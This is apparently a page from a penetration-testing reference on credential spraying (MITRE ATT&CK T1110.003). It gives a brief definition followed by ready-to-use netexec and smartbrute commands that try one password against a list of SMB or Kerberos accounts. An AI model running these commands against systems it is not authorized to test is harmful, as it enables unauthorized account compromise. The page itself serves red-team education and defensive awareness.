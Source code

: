 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1110.003
---
```


# Spraying

Credential spraying is a technique that attackers use to try a few passwords (or keys) against a set of usernames instead of a single one. This technique is just [credential guessing](guessing.md) but "sprayed" (i.e. against multiple accounts) and tools that can do [credential guessing](guessing.md) can usually do spraying.

```bash
# netexec example
nxc smb target_ip -d domain.local -u users.txt -p "password" --no-bruteforce --continue-on-succes

# smartbrute example (dynamic user list)
smartbrute smart -bp "password" kerberos -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --kdc-ip "$KDC" kerberos

# smartbrute example (static users list)
smartbrute brute -bU users.txt -bp "password" kerberos --kdc-ip "$KDC" 
```

{% content-ref url="guessing.md" %}
[guessing.md](guessing.md)
{% endcontent-ref %}



